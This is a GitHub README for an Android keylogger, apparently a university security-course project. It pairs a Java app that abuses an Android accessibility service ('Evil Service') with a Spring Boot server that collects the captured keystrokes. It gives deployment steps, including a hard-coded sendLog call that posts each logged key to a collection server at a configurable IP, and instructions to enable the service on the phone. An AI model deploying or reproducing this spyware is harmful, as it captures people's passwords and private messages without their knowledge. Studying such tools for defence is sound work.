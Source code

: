 # Android Keylogger

This is a project implemented as Project for the Information Systems Security Course. The main idea is developing a basic key logger for android mobile devices.

## Modules
* keylogapp => Basic Android Java Mobile Application that logs keys
* keylogweb => Spring Boot Web Application that receives logged keys

## How It Works
![Keylogger.png](./diagrams/Keylogger.png)

**Notes:**

## Usage
1. Deploy **keylogweb** application
    * NOTE: your andorid phone must have access to the server that web application running via network or internet etc.
    * You can directly start with following command:
        ```bash
        mvn clean package spring-boot:run
        ```
2. Prepare **keylogapp** for deployment
   1. [Go To KeyLogger.java](https://github.com/maemresen/android-keylogger/blob/main/keylogapp/app/src/main/java/com/maemresen/infsec/keylogapp/KeyLogger.java) 
   2. Find the following line
        ```
        sendLog("http://192.168.1.37:8080/keylog/save", keyLog);
        ```
    3. Replace `192.168.1.37` with the IP of the machine that you deploy `keylogweb` 
3. You should enable **Evil Service** which listens key press and send them to the server
   * after installed the App, you have to open Accessibility settings. (A button named **Evil Service** is added as a shortcut to directly jump accesibility settings.) Then at the bottom of the page, you will see **Evil Service** under Downloaded Services. You should enable Evil Service from there. Then it will works.
4. You can check your browser and you will see that each key-press on your Android phone will be printed to the web-page. **! Hint:** Do not forget to refresh browser manually. Auto-refresh feature not implemented :)
